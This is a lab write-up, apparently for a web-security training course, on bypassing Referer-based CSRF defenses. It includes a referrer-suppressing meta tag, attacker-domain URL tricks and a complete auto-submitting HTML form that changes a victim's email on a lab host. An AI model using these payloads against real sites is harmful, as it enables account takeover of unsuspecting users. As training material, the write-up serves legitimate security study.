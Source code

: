 **Bypassing Referer-based CSRF defenses**

Aside from defenses that employ CSRF tokens, some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. This approach is generally less effective and is often subject to bypasses.

**Referer header**

The HTTP Referer header (which is inadvertently misspelled in the HTTP specification) is an optional request header that contains the URL of the web page that linked to the resource that is being requested. It is generally added automatically by browsers when a user triggers an HTTP request, including by clicking a link or submitting a form. Various methods exist that allow the linking page to withhold or modify the value of the Referer header. This is often done for privacy reasons.

**Validation of Referer depends on header being present**

Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.

In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:

`<meta name="referrer" content="never">`

To solve this lab we add this line to exploit

`<meta name="referrer" content="no-referrer">`

Change email

Store it in server and deliver it to victim.

**Validation of Referer can be circumvented**

Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:

`[http://vulnerable-website.com.attacker-website.com/csrf-attack](http://vulnerable-website.com.attacker-website.com/csrf-attack)`

Likewise, if the application simply validates that the Referer contains its own domain name, then the attacker can place the required value elsewhere in the URL:

`[http://attacker-website.com/csrf-attack?vulnerable-website.com](http://attacker-website.com/csrf-attack?vulnerable-website.com)`

**Note**

Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, many browsers now strip the query string from the Referer header by default.

You can override this behavior by making sure that the response containing your exploit has the Referrer-Policy: unsafe-url header set (note that Referrer is spelled correctly in this case, just to make sure you're paying attention!). This ensures that the full URL will be sent, including the query string.

**Step1**

Open update email in repeater

**Step2**

Here when we change referrer to

Changing it to
```
<html>

  <body>

<script>

      history.pushState('', '', '/?0a3b00a804d1406280682b1100ac001f.web-security-academy.net');

</script>

    <form action="https://0a3b00a804d1406280682b1100ac001f.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="hqaaellxxxxo2222222wwww&#64;example&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      document.forms[0].submit();

    </script>

  </body>

</html>
```

I have change the email and added  /?0a3b00a804d1406280682b1100ac001f.web-security-academy.net and move the command to top

**Step 3**

Add this in head portion

Referrer-Policy: unsafe-url

We have a final exploit

Store it and deliver it to victim
